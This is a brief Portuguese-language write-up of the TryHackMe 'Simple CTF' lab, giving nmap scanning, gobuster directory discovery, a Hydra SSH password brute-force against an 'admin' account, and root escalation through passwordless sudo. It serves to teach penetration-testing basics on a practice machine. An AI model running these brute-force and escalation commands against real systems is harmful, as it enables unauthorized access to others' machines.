 # 🛠️ Write-up: TryHackMe - Simple CTF

## 🔎 Objetivo
Esta sala introduz conceitos básicos de enumeração, exploração e escalada de privilégios em ambientes Linux.

## 🧰 Ferramentas utilizadas
- nmap
- gobuster
- Hydra
- John the Ripper

## 🗂️ Etapas

### 1. Enumeração
```bash
nmap -sC -sV -oN initial-scan.txt 10.10.10.10
```
Identificamos um serviço SSH e um servidor Apache na porta 80.

### 2. Descoberta de diretórios
```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### 3. Brute force de login
```bash
hydra -l admin -P rockyou.txt ssh://10.10.10.10
```

### 4. Escalada de privilégios
Usuário explorável com sudo sem senha:
```bash
sudo -l
sudo /bin/bash
```

## 📝 Conclusão
Sala introdutória que cobre o básico de enumeração e escalada simples com sudo.
